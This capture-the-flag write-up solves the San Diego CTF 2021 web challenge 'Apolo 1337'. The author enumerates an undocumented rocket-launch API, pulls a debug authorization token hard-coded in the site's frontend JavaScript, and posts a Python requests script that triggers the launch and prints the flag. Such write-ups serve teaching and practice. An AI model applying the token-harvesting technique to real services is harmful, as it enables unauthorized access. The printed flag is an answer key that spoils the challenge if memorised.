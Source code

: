 # __San Diego CTF 2021__ 
## _Apolo 1337_

## Information

**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
WEB | 123 | soska_nerealka

**Description:** 

> Hey there intern! We have a rocket launch scheduled for noon today and the launch interface is down. You'll need to directly use the API to launch the rocket. No, we don't have any documentation. And quickly, our shareholders are watching!
>
>Website: https://space.sdc.tf/

## Solution
We should find information about this website API. Lets start with looking at requests from frontend. 

There we find GET request with "https://space.sdc.tf/api/status?verbose=" URL. It looks incomplete with this empty query parameter, does not it? Lets try to make a GET request with "https://space.sdc.tf/api/status?verbose=true".

So we get
```
{
	"status": "health",
	"longStatus": "Healthy. All routes are functioning properly.",
	"version": "1.0.0",
	"routes": [
		{
			"path": "/status",
			"status": "healthy"
		},
		{
			"path": "/rocketLaunch",
			"status": "healthy"
		},
		{
			"path": "/fuel",
			"status": "healthy"
		}
	]
}
```
Lets send empty POST request on rocketLaunch
```
import requests
import json

url = 'https://space.sdc.tf/api/rocketLaunch'
data = {}
headers = {'Content-Type': 'application/json'}

x = requests.post(url, data=json.dumps(data), headers=headers)

print(x.text)
```
Api answers with "rocket not specified". Lets try to specify it.
```
data = {"rocket": "apolo"}
```
Api answers with "rocket not recognized (available: triton)".
```
data = {"rocket": "triton"}
```
Api answers with "launchTime not specified". But we know from the task description that it should be launched at noon.
```
data = {"rocket": "triton", "launchTime": "12:00"}
```
Api answers with "fuel pumpID not specified". We can look at the available fiels by making Get request to "https://space.sdc.tf/api/fuel".
Lets use first pumpID from there.
```
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 1}
```
Api answers with "/fuel/1 is either not active or not above 50% capacity"
Ok, lets find the appropriate pump then!
```
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 4}
```
Api answers with "frontend authorization token not specified". So we need to find it!
We can easily find this code in one of files that are loaded by this website.
```
 return Object(c.useEffect)((function () {
                        var e = {
                            method: "GET"
                        };
                        window.localStorage.getItem("debug") && (e.headers = {
                                Token: "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"
                            }),
                            fetch("./api/status?verbose=", e).then((function (e) {
                                return e.json()
                            })).then((function (e) {
                                return n(e.longStatus)
                            }))
                    }), []),
```
So the final code looks like this:
```
import requests
import json

url = 'https://space.sdc.tf/api/rocketLaunch'
data = {'rocket': 'triton', 'launchTime': '12:00', "pumpID": 4, "token": "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"}
headers = {'Content-Type': 'application/json'}

x = requests.post(url, data=json.dumps(data), headers=headers)

print(x.text)
```
> sdctf{0ne_sM@lL_sT3p_f0R_h@ck3r$}
